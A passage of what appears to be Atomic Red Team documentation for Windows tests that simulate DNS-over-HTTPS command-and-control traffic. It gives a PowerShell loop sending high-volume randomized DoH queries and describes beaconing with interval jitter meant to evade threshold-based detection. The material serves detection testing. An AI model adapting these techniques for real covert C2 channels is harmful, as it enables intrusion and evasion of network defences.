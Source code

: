 **Supported Platforms:** Windows


**auto_generated_guid:** ae9ef4b0-d8c1-49d4-8758-06206f19af0a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| doh_server | Default DoH resolver | string | https://8.8.8.8/resolve|
| query_type | DNS query type | string | TXT|
| subdomain | Subdomain prepended to the domain name | string | atomicredteam|
| query_volume | Number of DNS queries to send | integer | 1000|
| domain | Default domain to simulate against | string | 127.0.0.1.xip.io|


#### Attack Commands: Run with `powershell`! 


```powershell
for($i=0; $i -le #{query_volume}; $i++) { (Invoke-WebRequest "#{doh_server}?name=#{subdomain}.$(Get-Random -Minimum 1 -Maximum 999999).#{domain}&type=#{query_type}" -UseBasicParsing).Content }
```






<br/>
<br/>

## Atomic Test #2 - DNS over HTTPS Regular Beaconing
This test simulates an infected host beaconing via DoH queries to a command and control server at regular intervals over time.
This behaviour is typical of implants either in an idle state waiting for instructions or configured to use a low query volume over time to evade threshold based detection.
A custom domain and sub-domain will need to be passed as input parameters for this test to work. Upon execution, DNS information about the domain will be displayed for each callout in a JSON format.

**Supported Platforms:** Windows


**auto_generated_guid:** 0c5f9705-c575-42a6-9609-cbbff4b2fc9b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| doh_server | Default DoH resolver | string | https://8.8.8.8/resolve|
| runtime | Time in minutes to run the simulation | integer | 30|
| domain | Default domain to simulate against | string | 127.0.0.1.xip.io|
| subdomain | Subdomain prepended to the domain name | string | atomicredteam|
| query_type | DNS query type | string | TXT|
| c2_interval | Seconds between C2 requests to the command and control server | integer | 30|
| c2_jitter | Percentage of jitter to add to the C2 interval to create variance in the times between C2 requests | integer | 20|
